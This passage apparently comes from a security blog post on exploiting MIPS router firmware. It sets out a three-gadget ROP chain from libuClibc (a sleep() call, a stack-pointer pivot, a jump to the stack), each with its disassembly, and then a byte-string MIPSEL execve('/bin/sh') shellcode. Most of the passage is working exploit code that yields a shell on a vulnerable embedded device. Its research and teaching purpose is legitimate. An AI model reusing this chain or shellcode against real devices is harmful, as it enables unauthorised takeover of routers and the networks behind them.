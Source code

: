 The first gadget that I needed was one to execute `sleep()` while having a reasonably small value in `$a0` that will serve as argument in seconds to sleep. Also, this gadget had to allow me to maintain control of the execution flow. I found the following one:

>_Note: All the gadgets were found in the libuClibc-0.9.30.1.so_

```asm
#Gadget 1 (calls sleep(3) and jumps to  $s5)
#
# 0003bc94 03 00 04 24            li         a0,0x3  ; Argument for sleep
# 0003bc98 21 c8 c0 03            move       t9,s8   ; s8 points to sleep()
# 0003bc9c 09 f8 20 03            jalr       t9
# 0003bca0 21 30 00 00            _clear     a2
# 0003bca4 21 28 80 02            move       a1,s4
# 0003bca8 0e 00 04 24            li         a0,0xe
# 0003bcac 21 c8 a0 02            move       t9,s5   ; Address of Gadget #2
# 0003bcb0 09 f8 20 03            jalr       t9
# 0003bcb4 21 30 00 00            _clear     a2
```

The second one (which address has to be in `$s5`) had to adjust the stack pointer `$sp` to land in my shellcode and put its value in a register:

```asm
# Gadget 2 (Adjusts $sp and puts stack addess in $s1)
#
# 0004dcb4 28 00 b1 27            addiu      s1,sp,0x28
# 0004dcb8 21 20 60 02            move       a0,s3
# 0004dcbc 21 28 20 02            move       a1,s1
# 0004dcc0 21 c8 00 02            move       t9,s0
# 0004dcc4 09 f8 20 03            jalr       t9
# 0004dcc8 01 00 06 24            _li        __name,0x1
```

After this gadget was executed I had register `$s1` pointing to my code in the stack and could control the execution flow controlling the value of `$s0` register. Luckily, if you remember from the beginning of the blog post we have control over it. Our last gadget then had to execute code referenced by `$t9`:

```
# Gadget 3 (jumps to $s1 -> Stack)
# 0001bb44 21 c8 20 02            move       t9,s1
# 0001bb48 09 f8 20 03            jalr       t9
# 0001bb4c 03 00 04 24            _li        __size,0x3
```

Once I had the required gadgets, I looked for a shellcode to execute `execve(/bin/sh)`. I found one that worked in the [Firmware exploitation with JEB: Part 2blogpost](https://www.pnfsoftware.com/blog/firmware-exploitation-with-jeb-part-2/):

```Python
# execve shellcode translated from MIPS to MIPSEL
# http://shell-storm.org/shellcode/files/shellcode-792.php
# Taken from: https://www.pnfsoftware.com/blog/firmware-exploitation-with-jeb-part-2/

shellcode = b""
shellcode += b"\xff\xff\x06\x28" # slti $a2, $zero, -1
shellcode += b"\x62\x69\x0f\x3c" # lui $t7, 0x6962
shellcode += b"\x2f\x2f\xef\x35" # ori $t7, $t7, 0x2f2f
shellcode += b"\xf4\xff\xaf\xaf" # sw $t7, -0xc($sp)
shellcode += b"\x73\x68\x0e\x3c" # lui $t6, 0x6873
shellcode += b"\x6e\x2f\xce\x35" # ori $t6, $t6, 0x2f6e
shellcode += b"\xf8\xff\xae\xaf" # sw $t6, -8($sp)
shellcode += b"\xfc\xff\xa0\xaf" # sw $zero, -4($sp)
shellcode += b"\xf4\xff\xa4\x27" # addiu $a0, $sp, -0xc
shellcode += b"\xff\xff\x05\x28" # slti $a1, $zero, -1
shellcode += b"\xab\x0f\x02\x24" # addiu;$v0, $zero, 0xfab
shellcode += b"\x0c\x01\x01\x01" # syscall 0x40404\
```